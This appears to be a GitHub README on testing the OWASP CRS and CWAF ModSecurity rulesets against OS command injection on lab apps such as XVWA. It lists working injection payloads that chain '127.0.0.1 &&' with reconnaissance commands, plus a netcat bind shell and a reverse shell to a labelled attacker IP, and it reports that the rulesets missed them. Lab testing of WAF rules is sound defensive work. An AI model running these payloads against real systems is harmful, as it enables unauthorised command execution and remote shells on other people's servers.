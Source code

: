# WAF-Rule-Testing (OS Command injection Rules)
Testing OS command injection attack on vulnerable application with OWASP CRS && CWAF Ruleset.

**How to identify the flaw on OWASP CRS && CWAF Ruleset?**

    1. At first, set up the vulnerable application i.e xvwa,OWASP Mutillidae Vulnerable App on the server for testing WAF rules.
    2. Install modsecurity and include both OWASP CRS && CWAF ruleset in apache config.
    3. Before testing t Vulnerable app, have a complete knowledge about OWASP TOP 10 vulnerability 
       
       How it works?
       How to exploit it?
       What are the modern evasion technique to bypass WAF rules?
    
    4. Read the Modsecurity Reference manual on Github
    
        Understand how modsecurity works ?
        start analyse the rules?
        Break the regex and analyse how it was developed?
        Start testing regex pattern to understand how prefect it detect payloads? 
        
    5. Start testing the vulnerable app. 
    
**How to test OS command Injection attack on vulnerable application with OWASP CRS && CWAF Ruleset?**
        
    1. Install Modsecurity and Configure OWASP CRS & CWAF rule set.
    2. Install xvwa app and COnfigure it with database.
    3. start testing the XVWA app for OS commands injection.
    
 **Testing OS Command injection attack on OWASP CRS**
    
     Note: We can use && or | or ; to pipe the command to execute.
     Include the OWASP CRS on apache config:
    
     Test these following payloads on the xvwa vulnerable application for OS command injection.
     
        127.0.0.1 && cd /root/Desktop/ && pwd && service --status-all 
        127.0.0.1 && ps
        127.0.0.1 && service mysql status
        127.0.0.1 && service apache2 status
    
     As a result, OWASP CRS failed to detect these above Injection Payloads, but it block almost ever major OS Commands injection 
     payloads from execution on server.
     Check the demo video to know more :)
 
 **Testing OS Command injection attack on CWAF Ruleset**
    
     Note: We can use && or | or ; to pipe the command to execute.
     Include the CWAF ruleset on apache config:
     
     Test these following payloads on the xvwa vulnerable application for OS command injection.
       
        127.0.0.1 && cd /root/Desktop/ && pwd && ps && service --status-all 
        127.0.0.1 && cat index.php
        127.0.0.1 && echo "tell me whoami?  I am Human or AI :)"
        127.0.0.1 && nc -ln -e /bin/sh -p 9999
        127.0.0.1 && uname -a
        127.0.0.1 && netstat -ltnp | grep '80'

        Let try reverse shell scenario:
        127.0.0.1 && nc -c /bin/sh 192.168.1.12 9999
        Attacker IP - 192.168.1.12
        Attacker Listener port: 9999 

      As a resut, CWAF failed to detect the major OS command injection attack on the application, which lead us to get reverse shell on the server.
      Check the demo video to know more :)
      
## Demo Video
  
   [![Alt text](https://img.youtube.com/vi/U5qmi_yoMQA/0.jpg)](https://www.youtube.com/watch?v=U5qmi_yoMQA)

## Support !
 Email address: umarfarookmech712@gmail.com  for more details. <br>
 Youtube: [FOS](https://www.youtube.com/channel/UCEBHO0kD1WFvIhf9wBCU-VQ) <br>
 Blog: [FOS](https://fosecurity.blogspot.com) 

## Useful links:
 1. [Modsecurity](www.modsecurity.com/)
 2. [Kali](https://www.kali.org/)
 3. [Debuggex](https://www.debuggex.com/)
 4. [OWASP Mutillidae Vulnerable App](https://www.owasp.org/index.php/OWASP_Mutillidae_2_Project)
 5. [XVWA](https://github.com/s4n7h0/xvwa)
 6. [Modsecurity Reference Manual](https://github.com/SpiderLabs/ModSecurity/wiki/Reference-Manual#UNIX)
